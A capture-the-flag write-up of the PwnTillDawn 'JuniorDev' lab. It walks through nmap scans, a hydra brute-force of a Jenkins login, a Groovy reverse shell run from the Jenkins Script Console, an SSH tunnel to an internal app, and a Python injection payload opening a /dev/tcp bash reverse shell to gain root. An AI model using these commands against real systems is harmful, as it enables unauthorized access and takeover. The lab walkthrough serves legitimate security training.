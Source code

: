 ```yaml
---
title: "PwnTillDawn - JuniorDev"
author: Nasrallah
description: ""
date: 2022-09-21 00:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, jenkins, hydra, bruteforce, commandinjection, python, tunneling]
img_path: /assets/img/pwntilldawn/juniordev
---
```


---


# **Description**

Hello hackers, I hope you are doing well. We are doing [JuniorDev](https://online.pwntilldawn.com/Target/Show/63) from [PwnTillDawn](https://online.pwntilldawn.com/). The target is running a web server on a non standard port. We found a login page that we brute force to get in and then run a command for a reverse shell. Then we find another web server running internally so we use an ssh tunnel to access it. We exploit a command injection vulnerability to get root. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22 open running openssh.

We don't have any credentials and the version of ssh doesn't have any vulnerabilities.

Let's scan all ports this time with `sudo nmap --min-rate 5000 -p- 10.150.150.38`

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.094s latency).
Not shown: 64506 closed tcp ports (reset), 1027 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
30609/tcp open  unknown
```

We found another service on a high port, let's run a service scan on that port.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.27.v20200227)
```

The port is running a jetty web server.

## Web

Let's navigate to the web page on `http://10.150.150.38:30609/`

![](1.png)

We found a login page for Jenkins.

I tried some default credentials but no luck with that. Let's brute force the login with hydra, but first we need to intercept a login request to see what parameters we need to set.

![](2.png)

Now let's craft our command.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Let's run the command.

![](3.png)

Got the password.

# **Foothold**

Let's login to Jenkins.

![](4.png)

Great! Now we need to get a shell. We can do that by going to `Manage Jenkins` -> `Script Console` and enter the following command.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

Now setup a listener with `nc -lvnp 9001` and run the command.

![](6.png)

We got the shell.

# **Privilege Escalation**

Let's do some basic enumeration.

![](7.png)

We found a ssh key. Let's connect with it.

![](8.png)

I uploaded a copy of linpeas and after running it i got this.

![](9.png)

We found a service listening on port 8080 and we can't access it.

We are gonna use ssh tunneling in order to access it.

Run the following command from the attacker machine.

```bash
ssh -L 8000:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN
```

Now navigate to `127.0.0.1:8000`.

![](10.png)

We find an application that takes two numbers from us and adds them together.

We see in the title of the page `Jr.dev py example`. Which means this is a python application hens the `py` in the title.

Searching for python command injection, i found this [article](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1) which had the following command that would give us a reverse shell.

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.10/9999 0>&1"')#

```

Now setup a listener and put the payload above in one of the input fields and click calculate.

![](11.png)

Great! We got a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
